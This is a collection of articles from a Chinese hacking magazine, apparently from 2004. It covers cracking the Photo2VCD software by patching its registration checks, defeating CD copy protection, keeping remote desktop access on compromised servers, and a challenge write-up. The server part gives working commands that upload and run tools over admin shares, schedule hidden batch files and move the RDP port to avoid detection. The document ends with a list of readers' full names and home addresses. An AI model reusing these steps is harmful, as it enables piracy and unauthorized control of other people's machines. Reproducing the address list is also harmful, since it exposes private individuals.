## 实例 2：破除 Photo2VCD v2.71 功能限制

Photo2VCD 是一个可以把图片转换为 VCD 格式的国外软件，最新版本为 2.71。

### 收集程序相关信息

按上面的方法检测，发现程序是用 ASPack 2.12 加的壳。为了便于分析，我们用 AspDie 1.41 来把程序的壳脱掉，对脱掉壳的程序再用 PEiD 检测，发现程序用 Delphi 编写。通过浏览程序的说明资料，可以发现程序如果未注册，背景后会打上一条水印字句“Created by Photo2VCD Professional”。运行程序，发现程序在运行前会弹出一个输入框要求输入注册码。初步确定程序保护方式：加壳 + Nag + 注册码。

> 注：壳就是为防止程序非法破解或非法反汇编而加入的一层保护。

### 功能限制的解除

用 DeDe 载入脱壳后的程序，我们先来分析一下程序对输入注册码处理部分。点击过程栏目，选择 `ProRegistration` 单元名，双击 `BitBtn1Click`（此为响应单击注册按键处理部分）：

```assembly
006E9330   push    $10
* Possible String Reference to: 'Sorry'
006E9332   mov     ecx, $006E934C
* Possible String Reference to: 'Sorry! Your license name and register key doesn't match!'
006E9337   mov     edx, $006E9354
006E933C   mov     eax, dword ptr [$0071D8C8]
006E9341   mov     eax, [eax]
006E9343   call    00471684
006E9348   ret
```

可以发现程序对输入的注册码直接显示注册失败的信息。同时，注意到程序提到未注册版本有打上水印的限制，那我们就对这个版本进行爆破修改，去除 Nag 提示及功能限制。选择 `promain` 单元，双击，来到如下代码：

```assembly
006EBB75 JNO SHORT Photo2VC.006EBB77
006EBB77 TEST AL, AL
006EBB79 JNZ Photo2VC.006EBC22  ; 这里是判断是否注册的关键跳转
```

详细分析如下：

```assembly
006EBB7F  LEA EDX,DWORD PTR SS:[EBP-8]
006EBB82  MOV EAX,DWORD PTR DS:[71D8C8]
006EBB87  MOV EAX,DWORD PTR DS:[EAX]
006EBB89  CALL Photo2VC.0047101C
006EBB8E  PUSH DWORD PTR SS:[EBP-8]
006EBB91  PUSH Photo2VC.006EBE20        ; ASCII " v"
006EBB96  LEA EAX,DWORD PTR SS:[EBP-C]
006EBB99  CALL Photo2VC.006CC744
006EBB9E  PUSH DWORD PTR SS:[EBP-C]
006EBBA1  PUSH Photo2VC.006EBE2C        ; ASCII " [Unregistered]"
006EBBA6  LEA EAX,DWORD PTR SS:[EBP-4]
... (省略) ...
006EBBED  MOV EAX,DWORD PTR DS:[71D8C8]
006EBBF2  MOV EAX,DWORD PTR DS:[EAX]
006EBBF4  CALL Photo2VC.0047101C
006EBBF9  MOV EAX,DWORD PTR DS:[EBP-10]
006EBBFC  CALL Photo2VC.004058B0
006EBC01  MOV ECX,EAX
006EBC03  MOV EDX,Photo2VC.006EBE3C
; ASCII "Sorry. Your software has expired. Please go to http://www.photo2vcd.com to order a register key."
006EBC08  MOV EAX,DWORD PTR DS:[71D8C8]
```

注意上面的未注册及过期提示信息，这里就是调用 Nag 提示框的代码。看一下上面有什么关键跳转，这里是 `006EBB79 JNZ Photo2VC.006EBC22`，所以只要把 JNZ 改为 JMP 就可以了。

现在得用 OllyDbg 来修改上面的代码及去除写入水印的代码了。用 OllyDbg 载入程序，在 CPU 窗口中右击，选 “search for/all referenced text strings”，在弹出的窗口中查找 “Created by Photo2VCD Professional” 字符，找到后双击来到这里：

```assembly
006F3B5C  CMP BYTE PTR DS:[EAX],0
006F3B5F  LEA EAX,DWORD PTR SS:[EBP-1C]
006F3B62  MOV EDX,unpacked.006F3FD4     ; ASCII "Created by Photo2VCD Professional"
006F3B67  CALL unpacked.00405488
006F3B6C  CMP BYTE PTR SS:[EBP-1],0
006F3B70  JE SHORT unpacked.006F3B88
006F3B72  MOV EAX,DWORD PTR DS:[EBX]
006F3B74  CALL unpacked.0042DEBC
006F3B79  MOV EAX,DWORD PTR DS:[EAX+C]
006F3B7C  MOV EDX,0C
006F3B81  CALL unpacked.00427EA8
006F3B86  JMP SHORT unpacked.006F3B9C
006F3B88  MOV EAX,DWORD PTR DS:[EBX]    ; 这里取上面的字符串
006F3B8A  CALL unpacked.0042DEBC        ; 跟进这个 call 可以发现是把字符串写入，所以应该 nop 掉
006F3B8F  MOV EAX,DWORD PTR DS:[EAX+C]
006F3B92  MOV EDX,1E
```

先了解 OllyDbg 修改代码的知识：在 CPU 窗口中双击要修改的代码，此为 `006EBB79`，在弹出的窗口中输入要修改的汇编代码，这里是 `JMP 006EBC22`，然后点击 “assemble”，修改后的代码会红色显示。按同样的方法，来到 `006F3B8A` 这里，双击，输入 `nop` 点击 “assemble”（nop 即为汇编指令空操作）。在这行修改后的代码上右击鼠标，点击 “copy to executable/all modifications”，在弹出窗口中右击选 “保存文件”。运行一下程序，Nag 及功能限制全部去除，至此修改完成。

## 总结

- **基本招式**：DeDe 获取关键代码。OllyDbg 的基本使用调试、查找字符串、修改代码等。
- **组合招式**：通过 PEiD 查看信息、DeDe 反汇编、OllyDbg 查找字符串等来定位关键代码，对关键代码用 OllyDbg 动态跟踪验证推测。

你学会了吗？

icefire：草草最近老跑电脑城，原因是买到的光盘总是加了密的！命苦啊，上天就不能跟他说一下怎么解开它？幸好 netbug 教了他一招狠的，他才没跑断腿。有感于此，我就把 netbug 拉了出来，把他知道的如何破解光盘加密的方法都告诉读者朋友们。呵呵，鲜花……掌声……

难度等级：高
前置知识：光盘加密的常用手段

## 加密光盘破解全接触
文／图 netbug

小弟平时喜欢编写软件，当然是高质量的大型软件（倒，先别扔我鸡蛋！）。编写完了以后就需要把软件打包到光盘上面去好发行，今天我们不讲如何给软件打包，只讲如何将光盘加密起来并验证相应加密方法的可靠性，因为黑客防线提倡的是“在攻与防的对立统一中寻求突破”嘛！

### 一般的光盘加密方法与破解方法

- **1. 隐藏目录与文件法**
一般来说，将文件和目录隐藏起来而让别人无法看到的做法是最普遍的，我们在用 Ahead 刻制光盘的时候设置其属性为 Windows 隐藏属性就可以达到这样的效果，但是最普遍的就意味着最容易被人破解：破解的时候只要简单地打开 Windows 显示隐藏文件夹的功能就可以破解了。实在不是什么好办法。

- **2. 变相的隐藏目录和文件法**
这种方法要比前面的那种要好一点，它利用特殊的光盘软件将光盘文件和目录的属性改为其他数值。在光盘目录里，光盘文件也有一个同 Windows 对应的 FDT（文件目录表）。FDT 中的某个数据位可以指示出文件的属性：01 表示系统属性，02 表示只读属性，04 表示隐藏属性——这个数值只是由一个字节来表示，如果我们把其改为了其他数值，那么 Windows 就无法识别了！

这样隐藏的效果比前一个要好，即使在 Windows 里设置了“显示所有文件”也不能看到隐藏在光盘中的文件——不过还是可以方便地破解：我们可以用“光盘加密大师”的自定义目录属性来修改它。在这里，我们设置文件和目录的属性为 06。遇到这样的加密措施我们唯一可以做到的就是把光盘的 FDT 读出来。

读者朋友可能就要问了：要怎样才能把光盘的 FDT 读出来呢？呵呵，在这里我们推荐你使用 Virtual disk 5.0 就可以。这是一款虚拟光驱软件，所有操作都是傻瓜化的，这里也就不浪费大家的时间了！我们读出了 FDT 自然就看到哪些目录不在你现在加密的光盘上出现，要找的东西自然就是它了！

- **3. 文件目录互换法**
这个道理和前面的第二个方法相似，只是它要聪明一点：在 FDT 中直接把表示目录的位变成了表示文件的位！但是，它在本质上仍然是目录，这是永远改不了的！

有些软件采用特殊工具把一个“常用软件”目录变成了一个文件。看上去还真的像一个文件的样子。用鼠标双击它看看，呵呵，别告诉我的计算机差点就没反应了。破解办法非常简单：直接在 DOS 状态下来一个 CD 命令就摆平了（DOS 可是学习安全不可缺少的东西哦！）。因此当实际运用的时候，你发现一个没有图标的文件，大小为 2k，并且在 Windows 里面打不开，这时候就该考虑一下它是不是目录了！

- **4. 特殊字符目录法**
在 Windows 里，大部分用的都是中文和英文字母，如果光盘加密的时候采用了特殊字符来加密的话，我们就看不到目录的名字了，这也是许多数字资料光盘在加密的时候常常选用的方法。

常见的特殊字符如：\。遇到这样的光盘关键是找到这个特殊字符是什么了。一般来说如果加密光盘附带程序，那么你打开这个程序搜索“\”这个字符一般会有你想要的结果。如果不幸的话，就只能用读光盘 FDT 的方法了。

### 更为狡诈的光盘加密与解密思路

点子都是人想出来的，下面我们将重点介绍一些鲜为人知的光盘加密办法，大家看好了。

- **1. 超大文件加密法**
加密后的现象：
  - 如果是可执行文件，其图标将变成一个 DOS 应用程序的图标；如果是一般文件，则图标依 Windows 内部文件类型为准。
  - 文件的大小突变为：1.99GB。呵呵，够大吧，像 DVD 了。
  - 可执行文件如果大小变为了 1.99GB 后依然可以运行，厉害吧。
  - 如果你试图拷贝这个文件，通常会因为空间不足或读取错误而失败。

加密者通常是把所有可执行文件加密为超大文件。

破解方法：
对于可执行文件：我们可以先直接运行这个可执行文件，然后用进程 Copy 软件，如 pedump，把文件从内存中重新建立为文件。如果你对破解工具不是很熟悉，那么你可以先点击这个文件运行看看。如果程序马上就出现了界面，说明这个软件不是很大，一般为 500K 以内。如果等待 5 秒才出来，那么这个软件大概有 3M 的样子。此时，我们就可以自己编写一个软件，只读取这个文件的前 5M 来运行就可以了。更通用的办法是采用 Winhex 的文件编辑功能，用 Winhex 直接打开那个超大文件就可以了。打开后 Winhex 就自动报告这个文件的大小。你只需要另存为就搞定了。

对于非可执行文件：我们依旧采用 Winhex 的直接打开文件法，如果不是可执行文件，我们就需要一个小技巧：直接把 Winhex 的滚动条向下面拉，拉不远 Winhex 就要报错。这时候在出错的地方记录下文件的偏移位置，关闭文件，再用 Winhex 打开文件，直接保存到出错前的一个偏移字节就可以了。思路是：读到出错的地方保存一下文件偏移地址，也就是文件指针；第二次读的时候就读到偏移处，超大文件就变正常文件了。

- **2. 刻录光盘轨道隐藏法**
一般来说，用这一招的人都是算够狠的了。加密后的现象：光盘加密后没有任何奇怪的表现。用以上我说的任何方法去寻找隐藏文件都会失败。如果光盘上的文件是 200M，那么它的确也只是 200M。

这其中的玄机是：刻录软件把一张光盘分为多重区段的方式来刻，这次没刻满最大容量下次可以继续再刻。关键就是加密者先把重要的资料刻好，第二次刻盘的时候就把上次刻的文件删除了，再加入一些新的图片资料等，所以当一张光盘还没被终结刻录的时候是可以任意修改的。

破解方法：解铃还需系铃人，找到刻录软件，如 Ahead Nero 就不错。放入刻录机内，用 Nero 对这张光盘进行多重区段编辑。我们直接点查看光盘区段就会发现有多个区段的存在。利用 Nero 的区段保存方式直接保存为 ISO 文件就可以了。

如果该光盘被刻录过多次，例如区段 01 被刻录了 136M，如果加密者在刻录完这 136MB 的内容时把刻上去的东西删除了，再刻 2、3 区段，那么光盘的表现形式就是 2、3 区段的文件。采用保存轨道的方式，我们就可以得到轨道的 ISO 文件了。顺便说一下，WINRAR 可以解开 ISO 文件。

**总结：** 加密和解密永远是矛盾的关系，这就需要软件开发者在软件自身上完善反盗版功能。加密你的光盘，加密你的资料，希望本文带给你的是如何保护自己软件的方法，而不是叫你去盗别人的加密光盘。谨记！

> **编后**
> 看了这篇文章感觉怎么样？是不是有点跃跃欲试的感觉？“呵呵，反正草草现在是再也不怕加密光盘了！因为再遇到这样的光盘我就扔给 netbug，哈哈。”

---

socket：崭新的2004年又来到了，新的一年里我们会用更好的杂志回报大家的关心！特别是新手朋友，为了更好地回报新手朋友们对我们的关怀，在2004年，我们专门为新手朋友开了“新兵训练营”这个版块，提供非常灵活的、基础的、实用的入侵方法和安全技术。

当然，如果大家有什么想法，可以直接给我发 E-mail，我的地址是 socket@hacker.com.cn，同时欢迎大家踊跃投稿！把自己的成功入侵经验和所有朋友分享！

## 终端服务全攻略
文／dahubaobao

在漏洞层出不穷的今天，入侵一台服务器已经不是什么新鲜事。入侵成功后，如何以最方便的方式来控制电脑呢？当然是终端服务。下面我们将逐步给你揭开“终端之谜”，希望你成为一个“终端高手”！

### 什么是终端服务
3389又称 Terminal Service、服务终端。它是在 Windows NT 中最早开始使用的一种终端，在 Win2K 的 Professional 版本中是不能安装的，在 Server 或以上版本才可以安装，其服务端口为 3389。由于使用简单、方便等特点，一直受到系统管理员的青睐。也正因为简便，它不能产生交互式登录，可以在后台操作，因此也受到了黑客朋友的喜爱。在 Windows XP 系统中，终端服务又叫做“远程桌面”。

### 打开终端服务的各种方法

**小编注：** 下文提到的工具都已收录入本期光盘杂志相关栏目中，请按照文章名查找。

- **1. 使用 ROTS.VBS 脚本**
VBScript (微软可视化 BASIC 脚本版) 是基于 Visual Basic 的脚本语言。使用 ROTS.VBS 脚本首先要获得该主机的 Administrator 权限或 Local System 权限。
命令格式一般为：`ROTS.vbs <目标IP> <用户名> <密码> [服务端口] [自动重启选项]`。
打开本地 CMD，输入：`ROTS.vbs XXX.XXX.XX.XXX dahubaobao dahu 3389 /fr`
注意：`/fr` 为强制重启，`/r` 为普通重启。脚本会判断目标系统类型。
  - 优点：成功率高。
  - 缺点：必须重新启动。

- **2. 使用批处理 open3389.bat**
使用方法：`open3389.bat <目标IP> <用户名> <密码>`
打开 CMD，输入：`open3389.bat XXX.XXX.XX.XXX dahubaobao dahu`。
  - 优点：不必重新启动。
  - 缺点：成功率不高。

- **3. 使用 HBULOT**
这个工具要上传到对方的机器然后执行：
```
C:\>net use \\XXX.XXX.XX.XXX\IPC$ "dahu" /user:"dahubaobao" //建立IPC连接
C:\>copy HBULOT.exe \\XXX.XXX.XX.XXX\admin$ //上传到对方的system32目录下
C:\>net use \\XXX.XXX.XX.XXX\IPC$ /del //断开IPC
```
然后 Telnet 上去，到对方的 WINNT\system32 目录下，直接运行 HBULOT.exe 即可。

### 完全手工开启终端服务
下面介绍的方法不需要工具。首先 Telnet 上去，输入 `query user`。如果没安装终端，请看如下操作：

```
C:\> dir c:\sysoc.inf /s //查找sysoc.inf文件的位置
C:\> dir c:\sysocmgr.* /s //查找组件安装程序
C:\> echo [Components] > c:\ts
C:\> echo TSEnable = on >> c:\ts //建立无人值守安装的参数
C:\> sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\ts /q //开启3389并重启
C:\> sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\ts /q /r //开启3389不重启
```

更方便的做法是做一个 bat 文件：
```
echo [Components] > c:\ts
echo TSEnable = on >> c:\ts
c:\sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\ts /q
net use \\ip\ipc$ dahu /user:dahubaobao
copy 路径:\xxx.bat \\ip\winnt\admin$
at time 00:00:00 xxx.bat
```
主机执行之后，会自动重启，之后就可以利用 3389 登录了。

### 修改终端服务端口
这一步很重要，为了不让 3389 暴露，必须修改端口。终端服务安装后会在注册表增加两个键，键值为 16 进制的 3389，即“0x00000D3D”。

- **1. 手工修改端口**
打开“运行”，输入“regedit”，依次展开：
`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalServer\Wds\Repwd\Tds\Tcp` 和
`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalServer\WinStations\RDP-TCP`
修改“PortNumber”。如改成 8080 端口，键值为“1F90”。重启后生效。

- **2. 使用修改端口的工具 c3389**
```
Local Usage: c3389 7358
Remote Usage: c3389 \\192.168.0.1 adminname password 7358
```
打开 CMD，输入 `c3389 <端口>` 即可完成修改。

### 隐藏上次登录的用户名
在终端安装完成后，再次登录会显示上次的用户名。为安全起见，需修改注册表：
依次展开：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
将 `DontDisplayLastUserName` 的默认键值“0”修改为“1”。保存重启后生效。

### 限制 / 指定连接终端的地址
现在我们已经给肉鸡开了终端，并且修改了端口，还做了一些简单的维护，但这还是不够的，假如某人知道了我们修改过的端口就是终端服务，那就挂……

进入用户配置目录 Documents and Settings\Administrator:

```cmd
C:\Documents and Settings>cd Administrator
C:\Documents and Settings\Administrator>cd 桌面
C:\Documents and Settings\Administrator\桌面>
C:\Documents and Settings\Administrator\桌面>copy *.* d:\wwwroot\moto\第九关说明.txt
hacker4.exe
alluser.pl
```

现在直接通过 URL 下载第九关程序就突破第八关了！（注意，考虑到最近实在没有太方便的漏洞可以突破 SP4，我们将在 1 月 5 日左右将第八关难度降低，让大家在拿到 Webshell 后能方便地下载第九关程序！请大家关注）

## 第九关 Hacker4.exe 程序破解方法（李大华_Moto.Lee / 冰河）

拿到黑防第九关的程序后，先在 DOS 下运行，输入任意用户和密码，输出的都是错误的 IP。看来直接运行是找不到正确 IP 的，开始破解！

### 1. 静态分析

启动 UltraEdit-32，打开 hacker4.exe，直接查看明文信息，可以找到 "61.135.132.205" 这个 IP，一探测，发现是一个不知名的服务器，其实也不可能这样简单，不正确！继续查找明文信息，发现以下内容：

```cpp
//D/ 我的文档 /hacker4.cpp
//D/ 我的文档 /
(省略若干代码……)
//C/Dev-Cpp/include/stdio.h
//C/Dev-Cpp/include/_mingw.h
//C/Dev-Cpp/include/stddef.h
size_t:t(3,1)=(0,4)
wint_t:t(3,2)=(0,4)
va_list:t(1,1)=(1,2)=*(0,2)
_iobuf:T(1,3)=s32_ptr:(1,2),0,32;_cnt:(0,1),32,32;_base:(1,2),64,32;_flag:(0,1),96,32;_file:(0,1),128,32;_charbuf:(0,1),160,32;_bufsiz:(0,1),192,32;_tmpfname:(1,2),224,32;__as::(1,4)=##(1,5)=&(1,3);:RC6_iobuf;2A.;_iobuf::(1,6)=##(1,7)=*(1,3);:RC6_iobuf;2A.(1,8)=##(1,7);;2A.;;
_iobuf:Tt(1,3)
FILE:t(1,9)=(1,3)
fpos_t:t(1,10)=(0,6)
//C/Dev-Cpp/include/string.h
url:G(0,24)=ar(0,1);0;255;(0,2)    //注意这里！
main:F(0,1)
i1:(0,1)
i2:(0,1)
i3:(0,1)
i4:(0,1)
b:(0,25)=ar(0,1);0;1;(0,2)
sum:G(0,1)
name:G(0,26)=ar(0,1);0;11;(0,2)
password:G(0,27)=ar(0,1);0;23;(0,2)
buffer:G(0,28)=ar(0,1);0;12;(0,2)
buffer1:G(0,27)
```

上面的代码是调试类信息，该程序是使用 Dev-C++ 编译，调试信息中没有找到与 IP 或密码有直接关系的内容，继续！我们可以在明文信息中看到 "url is %d%s%d%s%d%s%d" 格式化字符串，猜测 IP 地址并不是以明文形式存在 exe 文件数据段中，而是经过 printf() 格式化后输出的！

至此，静态分析告一段落，需要通过动态跟踪修改程序代码，来使 "url is %d%s%d%s%d%s%d" 格式化字符串起作用。

### 2. 动态跟踪

启动 OllyDbg，打开 hacker4.exe，F8 单步执行，可以发现所有处理过程都在偏移 004011FE 的 CALL hacker4.00401190 处，该函数中直接调用 ExitProcess()，退出程序。重新加载程序，单步执行，到偏移 004011FE 处按 F7 进入。继续 F8 单步执行可发现偏移 004011CE 处的调用包含了主要功能，该调用结束后程序退出，接下来应该进入分析阶段。在偏移 004011CE 处按 F2 在该调用处设置断点。重新加载程序，F9 执行到断点，通过以下反汇编代码可以知道最关键的部分就在这一段了（省略前面输入账户和密码部分）：

```assembly
00401422    .  75 54           JNZ SHORT hacker4.00401478
00401424    .  C745 FC DB0000>MOV DWORD PTR SS:[EBP-4],0DB
0040142B    .  C745 F8 ED0000>MOV DWORD PTR SS:[EBP-8],0ED
00401432    .  C745 F4 510000>MOV DWORD PTR SS:[EBP-C],51
00401439    .  C745 F0 2F0000>MOV DWORD PTR SS:[EBP-10],2F
00401440    .  66:C745 EE 000>MOV WORD PTR SS:[EBP-12],0
00401446    .  C645 EE 2E      MOV BYTE PTR SS:[EBP-12],2E
0040144A    .  8B45 F0         MOV EAX,DWORD PTR SS:[EBP-10]
0040144D    .  50              PUSH EAX                     ; /<%d>
0040144E    .  8D45 EE         LEA EAX,DWORD PTR SS:[EBP-12] ; |
00401451    .  50              PUSH EAX                     ; |<%s>
00401452    .  8B45 F4         MOV EAX,DWORD PTR SS:[EBP-C]  ; |
00401455    .  50              PUSH EAX                     ; |<%d>
00401456    .  8D45 EE         LEA EAX,DWORD PTR SS:[EBP-12] ; |
00401459    .  50              PUSH EAX                     ; |<%s>
0040145A    .  8B45 F8         MOV EAX,DWORD PTR SS:[EBP-8]  ; |
0040145D    .  50              PUSH EAX                     ; |<%d>
0040145E    .  8D45 EE         LEA EAX,DWORD PTR SS:[EBP-12] ; |
00401461    .  50              PUSH EAX                     ; |<%s>
00401462    .  8B45 FC         MOV EAX,DWORD PTR SS:[EBP-4]  ; |
00401465    .  50              PUSH EAX                     ; |<%d>
00401466    .  68 C9124000     PUSH hacker4.004012C9         ; |format = " url is %d%s%d%s%d%s%d"
0040146B    .  E8 38010000     CALL <JMP.&msvcrt.printf>      ; \printf
00401470    .  83C4 20         ADD ESP,20
00401473    .  31C0            XOR EAX,EAX
00401475    .  EB 05           JMP SHORT hacker4.0040147C
00401477    .  90              NOP
```

单步执行到这里：

```assembly
004013DD    .  B8 04304000     MOV EAX,hacker4.00403004       ; ASCII "aaa"
004013E2    .  3D 95124000     CMP EAX,hacker4.00401295       ; ASCII "hacker"
004013E7    .> 74 23           JE SHORT hacker4.0040140C
004013E9    .  B8 10304000     MOV EAX,hacker4.00403010       ; ASCII "bbb"
004013EE    .  3D 9C124000     CMP EAX,hacker4.0040129C       ; ASCII "hackerdefence.com"
004013F3    .  74 17           JE SHORT hacker4.0040140C
```

可以看到程序用输入的用户名 / 密码 "aaa / bbb" 与 "hacker / hackerdefence.com" 做对比，之后是一个跳转，所以猜测输入正确的用户名 / 密码后程序会打印出隐藏的 IP 信息，但经过试验是无效 IP，这又是一个陷阱！

在偏移 004013E7 处设置断点，重新加载程序，运行到偏移 004013E7 处，双击该行将指令 "JE SHORT 0040140C" 直接修改为 "JMP SHORT 00401424"，即直接跳入打印 IP 信息的代码段。

好了！单步执行到偏移 0040146B 处的下一条指令，获得打印信息 "url is 219.237.81.47"，破解结束！

**wtf：** 总的来说，上面的八、九关过关方法都是比较实用的，八关过关虽然取巧了一点，但是正好体现了安全以人为本的宗旨，所以我们决定给 moto 发送第一位突破前九关的特别奖！第九关的破解方法是很成功的，体现了现在流行的破解方法，相信普通的程序也能被这样的方法破解。但是，请注意我们写在 http://219.237.81.46 首页上的话：我们需要的是思维的灵活和方法的变通，这个程序就能非常好的体现这一点！我们只能提示大家：这个程序换种思维会非常好的破解！呵呵，留给大家慢慢摸索！

## 附：前七关过关名单！

| 姓名 | 详情 |
| --- | --- |
| 李继辉 | 郑州工程学院 118# |
| 顾斌 | 杭州翠苑四区南园 5 幢 305 室 |
| 华列旦 | 南通市大学生公寓二号楼 215 室 |
| 汤啸宇 | 江苏省镇江市谷阳新村二区七幢 406 信箱 |
| 姚智超 | 河北省廊坊市银河北路 129 号 28—4—301 |
| 曾庆雄 | 广州市白云区龙归镇康升家具有限公司工程部 |
| 龚能勇 | 深圳市深南东路金丰城大厦 B 座 21 楼 |
| 于强 | 辽宁省本溪市经济开发区滨河工业区 2 号本溪经济开发区野山力饮品有限公司 |
| 赵林林 | 北京市海淀区小南庄 12 楼 3 门一号 |
| 赵璧 | 安徽中国科学技术大学 B21 号楼 411 室 |
| 冯智荟 | 上海市宝山区环镇北路 699 弄 87 号 502 室 |
| 马昌鹏 | 湖南省武冈市秦桥乡中心小学 |
| 陈疆 | 内蒙古大学理工学院物理系 2001 级电子科学与技术专业 |
| 彭愿 | 四川农业大学经济管理学院经管 00-3 |
| 黄山 | 广州市海珠区新港西路 152 号广东轻工职业技术学院 021 信箱 |
| 金斌 | 乌兰浩特卷烟厂信息中心 |
| 闫保增 | 开封市鼓楼区宏学街 22 号雍鑫电脑公司 |
| 柴毅 | 兰州市一只船北街 1 号黄楼商厦 1111 室 |
| 臧正秋 | 浙江树人大学 613 信箱 |
| 李兆波 | 四川绵阳 105 信箱 701 |
| 任晋海 | 北京科技大学 59 号信箱 |
| 孟宁 | 上海徐汇区岳阳路 110 号 |
| 张宝林 | 建师大清清分校 118# 信箱 |
| 高文瑜 | 山西省长治市晋东南师专 02 计三 |
| 陈启清 | 福建师范大学福清学院 118 信箱 |
| 罗剑 | 江西省新干县新兴电脑科技 |
| 张凯 | 河北省廊坊市第 2 中学初 2 三班 |
| 徐丹 | 河南郑州 1001# 774 信箱 |
| 庄政宽 | 山东省东营市胜利油田第一中学高 2003 级 2 班 |
| 林思雨 | 江苏工业学院会计 011 |
| 大堤 | 吉林长春理工大学 0104112 班 |
| 许亮 | 江苏工业学院装备 011 |
| 匡素文 | 合肥工业大学翡翠湖校区 86 号信箱 |
| 王鹏 | 北京市海淀区二里庄艺海学生公寓 217 室 |
| 王然之 | 江苏省南京市湖北路 87 号一单元 302 室 |
| 王辉 | 河南省郑州市金水区 27 中学初二 1 班 |
| 马杰 | 华北电力大学 479 信箱 |
| 孟凡江 | 河北省邯郸市柳林桥 62 号院 2 单元 12 号 |
| 吴华 | 江苏省南京市玄武区樱铁村 29 幢 3 单元 501 室 |
| 陈洁 | 江苏省扬州市宝应县泰山东村 101 幢 305 室 |
| 杜龙波 | 浙江省杭州市下沙高教园中国计量学院 0104 信箱 |
| 林丹凯 | 贵州省凯里市凯里一中高一 (10) |
| 钱超 | 天津市河西区天津现代职业技术学院计算机网络 G02-4 班 |
| 赵海锋 | 山西省青年管理干部学院 2003 级计算机系网络技术一班 |
| 顾守仁 | 福建水利电力职业技术学院电力 0232 班 |
| 杨威 | 四川省成都市成都理工大学银杏 7 斋 314 |
| 邹俊 | 郑州轻工业学院 03 级计通系计算机 1 班 |
| 庄上林 | 华南理工大学东六 225 |
| 吴长堤 | 长春理工大学 0104112 班 |
| 张毅 | 上海市万航渡路 661 弄 66 号 404 室 |
| 江学广 | 河北省邢台市河北机电职业技术学院高数 0305 班 |
| 闫春路 | 保定金融高等专科学校 83 号信箱 |
| 郑原斌 | 保定金融高等专科学校 111 信箱 |
| 王慧峰 | 江苏大学 825 # |
| 崔 | 山西太原市电子工业学校高电二班 |
| 帅庆涛 | 湖北省荆门市工程建设监理公司 |
| 丁在雷 | 甘肃省高台县人民政府网络信息中心 |
| 张经纬 | 湖北宜昌葛洲坝外国语学校高三 (2) 班 |
| 马宝磊 | 石家庄铁道学院土木分院 0101-4 班 |
| 姜海洋 | 北京市海淀区四王府 3 号乙 |
| 兰大伟 | 山东省乳山市文化街 18 号 |
| 黄南捷 | 河南信阳市新华东路 1 号申泰信用分社 |
| 张光得 | 北京市海淀区新街口外大街 19 号京师大厦 7 层信息技术部 |
| 周拓 | 陕西省西安市长安区西京大学西京职业学院计算机网络技术 0304 班 |
| 杨开泰 | 重庆大学建工东村 116-7-1 |
| 殷静 | 广州市天河北路 82 号 705 |
| 傅奎 | 北京理工大学 01110208 班 |
| 苏荣超 | 湖南省长沙市南方职业技术学院信息系计算机软件 1 班 (107 室) |
| 徐国伟 | 河南省开封县城关镇独乐岗村 |
| 陈凯晖 | 上海打浦路 92 号电脑部 |
| 黄炎培 | 广东省广州市环市东路犀牛北街广工学生宿舍区新 1 栋 309 房 |
| 孙文超 | 山东省威海塔山中路 12 号楼 202 室 |
| 程冲 | 河南郑州航海中路 77 号中州大学信息工程学院 01 网络 1 班 |
| 石谷涛 | 哈尔滨工业大学一校区 839 信箱 |
| 刘先勇 | 湖北武汉市武汉工业学院 053# |
| 姜焕辉 | 哈尔滨市中山路 172 号 2001 房间 |
| 陈旭 | 江苏扬州亚星股份公司售后服务中心 |
| 张百川 | 西安市长安区西京大学网络中心 |
| 彭硕 | 辽宁省沈阳市和平区南一马路 100 号东北育才学校 0162 班 |
| 曾俊 | 广西大学西校园 A129# |
| 吴斌 | 山东淄博市周村区长安街 47 号楼三单元 101 室 |
| 李嘉勇 | 福建福州六一中路 450 号永升城永安阁 23A |
| 吴滨虹 | 浙江省浙江科技学院 138 信箱 |
| 崔剑光 | 辽宁省大连市高新园区七贤岭火炬路 3 号物业总公司 |
| 李燕洋 | 北京市海淀区西三环北路 82 号 1 楼-4 门-601 室 |
| 蔡伟 | 河北石家庄精英中学高三 (一) 班 |
| 张昊 | 江苏省徐州市徐钢一宿舍 2 号楼 4 单元 502 室 |
| 白金 | 河南省郑州市郑州中学实验班 |
| 朱自强 | 浙江大学玉泉校区 9 舍 6073 室 |
| 黄陈 | 武汉武昌造船厂技术管理处网络室 |
| 崔健 | 山东烟台山东工商学院中加学院 2001 级计算机 2 班 |
| 舒萍 | 转郑嵩 湖南省衡阳市毛纺厂医务室 |
| 王晔文 | 洛阳 069 信箱 1 分箱 |
| 余杨 | 四川省泸州市江阳区莲花池 9 号楼 2 单元 10 号 |
| 周立衡 | 上海市普陀区甘泉三村 249 号 405 室 |
| 凌晓恒 | 江苏省吴江市盛泽镇房管所 |
| 于小军 | 河南省济源市济钢 3 号职工楼 319 室 |
| 王勤 | 辽宁省阜新县农业银行 |
| 杨凯 | 山东信息职业技术学院 02 级大专 11 |
| 陈东 | 成都理工大学 135 信箱 |
| 高志强 | 山东经济学院 8-6 信箱 |
| 沈秋锋 | 上海市奉贤区南桥镇育秀东区 213 号甲 101 室 |
| 宋超 | 辽宁省大连市中山路 682 号黑石礁辰熙大厦富海计算机专修学校高级软件工程专业 |
| 王中杰 | 河北省石家庄市康乐街 18 号二单元 502 |
| 李虹材 | 四川省内江市百货大楼十五楼内江网讯科技文化有限公司 |
| 李琮 | 长春市前进大街 881 号吉林大学远程教育学院计算机分院 0230 班 |
| 孙文韬 | 广州南方航空公司运行控制部 (SOC) |
| 刘剑 | 河南省巩义市文化街 22 号一单元付 5 |

当雪花飞扬，寒风呼啸，北国冰封的时候，编辑部里却温暖如春，新来的几个编辑和大家一起聊着自己家乡的趣事，分享着从祖国各地带来的土特产，那个美啊！简直是“此景只应天上有，人间那得几回闻”！本期先让刘流、脚本小子和大家见见面，以后我们会陆续安排新来的GGMM和大家见面，让他们和大家一起分享快乐、回答读者关心的问题。希望大家都能围绕共同的网络安全话题团结在一起，一起分享由技术提升而带来的喜悦感！

## 刘流

《黑客防线》杂志从2001年创刊的艰难历程，到2003年全国发行10多万份，已经有两年多的时间了。在这两年里，无数热心的读者朋友关心我们，支持我们，可以说，没有大家的支持，《黑客防线》不可能有今天的成就！谢谢了！亲爱的读者朋友们！

